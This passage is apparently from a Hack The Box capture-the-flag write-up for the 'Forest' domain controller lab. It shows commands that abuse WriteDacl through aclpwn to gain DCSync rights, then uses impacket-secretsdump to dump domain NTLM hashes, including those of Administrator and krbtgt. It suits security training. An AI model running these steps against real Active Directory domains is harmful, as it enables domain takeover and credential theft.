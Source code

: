     Local Group Memberships      *Remote Management Use
    Global Group memberships     *Exchange Windows Perm*Domain Users      <------------
    The command completed successfully.

4. Group 'Exchange Windows Permissions' has WriteDacl to HTB.LOCAL which grants the ability to modify the
   DACL in the object security descriptor. Exploit this using aclpwn or PowerView: Add-DomainObjectAcl.

   NOTE: I was not able to get it to work with PowerView.

    root@p3:/opt# aclpwn -f p3@htb.local -d htb.local -s 10.10.10.161
    Please supply the password or LM:NTLM hashes of the account you are escalating from:
    [+] Path found!
    Path: (p3@HTB.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
    [-] Memberof -> continue
    [-] Modifying domain DACL to give DCSync rights to p3
    [+] Dacl modification successful
    [+] Finished running tasks
    [+] Saved restore state to aclpwn-20191024-171539.restore

5. With the new DCSync rights to user p3 we are able to extract hashes from the DC using Impacket tool secretsdump
    root@p3:/opt# impacket-secretsdump htb.local/p3@forest.htb.local -just-dc
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    Password:
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
    htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
    htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
    htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
    htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
    htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::